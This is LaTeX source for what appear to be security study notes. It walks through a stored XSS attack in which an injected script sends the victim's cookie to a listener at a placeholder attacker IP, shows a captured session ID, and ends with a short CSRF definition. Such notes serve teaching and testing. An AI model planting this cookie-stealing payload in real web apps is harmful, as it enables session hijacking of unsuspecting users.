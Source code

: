 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.77,0.63,0.00}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Attacker create a small web server

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 8080}
\end{Highlighting}
\end{Shaded}
\item
  Attacker put the malicious XSS script on the web app

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<script>}\VariableTok{document}\NormalTok{.}\AttributeTok{write}\NormalTok{(}\StringTok{'<img src="http://<attacker_ip>:8080/img.jpg?cookie='} \OperatorTok{+} \VariableTok{document}\NormalTok{.}\AttributeTok{cookie} \OperatorTok{+} \StringTok{'">'}\NormalTok{)}\KeywordTok{</script>}
\end{Highlighting}
\end{Shaded}
\item
  Read the cookie on the small web server

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#Output}
\ExtensionTok{10.10.12.24}\NormalTok{ -- [date] }\StringTok{"GET /img.jpg?cookie=PHPSESSID=2qjc9psdroeqb0qcppnqdmhgp8 HTTP/1.1"}\NormalTok{ 404 -}
\end{Highlighting}
\end{Shaded}
\item
  Attacker can now update the cookie with the EditThisCookie chrome extension.
\end{enumerate}

\hypertarget{csrf-cross-site-request-forgery}{%
\section*{CSRF (Cross-site Request Forgery)}\label{csrf-cross-site-request-forgery}}

\textbf{CSRF} is a vulnerability that allows attacker to send a request for example a form that normaly is send by the method \textbf{POST} throw
another method like \textbf{GET}. It's commonly used in order to change a password. The attacker is now able to send a link that will change
automatically the password of a victim.
\end{document}
